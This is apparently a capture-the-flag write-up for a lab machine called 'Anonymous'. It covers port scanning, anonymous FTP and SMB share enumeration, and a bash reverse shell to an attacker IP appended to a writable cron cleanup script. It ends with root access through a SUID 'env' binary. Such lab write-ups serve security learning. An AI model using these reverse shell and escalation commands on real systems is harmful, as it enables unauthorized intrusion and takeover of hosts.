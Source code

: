 # Anonymous

A medium level machine, feel free to read my notes

## Enumerate the machine.  How many ports are open?

Use nmap
`nmap -sC -sV -vv -oN nmap.txt -p- IP`

Answer: `4`

Ports open:
```
21
22
445
139
```

## What service is running on port 21?

What is typicall for port 21?

`FTP`

## What service is running on ports 139 and 445?

View the nmap output: `cat nmap.txt`

```
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Answer: smb

## There's a share on the user's computer. What's it called?

We have to list shares. smbclient -L ////IP:445 or ////IP:139

But no luck. I tried an anonymous connection to the ftp client, and success. 

### Files got: 
```
clean.sh 
removed_files.log  
to_do.txt
```

At first glace, nothing good.

### smb-enum-shares

Became desperate, so I tried this.

```
nmap --script smb-enum-shares -p 445,139 10.10.253.50
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 16:36 EST
Nmap scan report for 10.10.253.50
Host is up (0.048s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.253.50\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.253.50\pics: 
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.253.50\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

### Answer

pics

`smbclient //IP/pics -U " "%" "`

and we get a list: 
```
corgo2.jpg
puppos.jpg
```
possible user: namelessone

## user.txt

take what I said back, we could use `clean.sh` to get a reverse shell

from 

```bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
to 

```bash
bash -i >& /dev/tcp/10.8.147.71/8888 0>&1;
```

I appended this to file in ftp using `append clean.sh` 
run `nc -lvnp 8888` in another tab and we are good to go!

Then just cat the user flag. 

## root.txt 

### Stabilize shell

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"

$ export TERM=xterm; export SHELL=/bin/bash
```
then Ctrl + Z to background the process, and in your host:
```
$ stty raw -echo; fg
```
and bam , we have a stable shell

### Escalation

running `id` the user is in groups `4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)` but we dont know the sudo password.

Lets run find for suid binaries
```bash
find / -type f -user root -perm /4000 2>/dev/null
```
time for linpeas.sh! Lets get it over through a simple python server:
```
python3 -m http.server --bind LHOST_IP 9999
```
and on remote you just wget the linpeas.sh file and run it

Now.... After linpeas finished, I realized that it found SUID binaries, that I overlooked in find. Especially `env`. 

run 
```
env /bin/bash -p
```
and we are root 

The root flag is in the /root/ directory 
